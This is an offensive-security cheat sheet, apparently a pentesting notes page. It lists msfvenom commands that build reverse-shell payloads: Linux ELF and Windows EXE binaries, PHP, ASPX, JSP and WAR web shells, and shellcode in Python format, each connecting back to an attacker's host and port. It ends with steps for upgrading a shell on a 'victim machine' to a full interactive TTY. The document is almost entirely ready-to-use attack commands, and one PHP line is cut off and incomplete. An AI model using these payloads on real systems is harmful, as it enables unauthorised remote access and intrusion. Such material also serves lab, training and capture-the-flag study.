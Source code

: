 #### Metasploit <a href="#metasploit" id="metasploit"></a>

**System Binaries**

```bash
# Linux reverse shell - Staged
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell
# Linux reverse shell - Stageless
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell

# Windows reverse shell - Staged
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
# Windows reverse shell - Stageless
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
```

**Web**

```bash
# PHP
msfvenom -p php/reverse_php 

# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o shell.aspx

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

**Shellcode**

Select appropriate architecture

```bash
# Linux Staged - use python or c
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Linux Stageless - use python or c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python

# Windows Staged - use python or c
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Windows Stageless - use python or c
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python
```

### Upgrading your shell - Linux <a href="#upgrading-your-shell---linux" id="upgrading-your-shell---linux"></a>

_Upon initial access, it is crucial to achieve the highest functional shell possible for privesc purposes!_

```bash
# On victim machine
which python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
# background the listener using ctrl+z
stty -a # notice the number of rows and columns
stty raw -echo
# foreground the process: type fg, press enter
stty rows xx
stty columns xxx
export TERM=xterm-256color
```
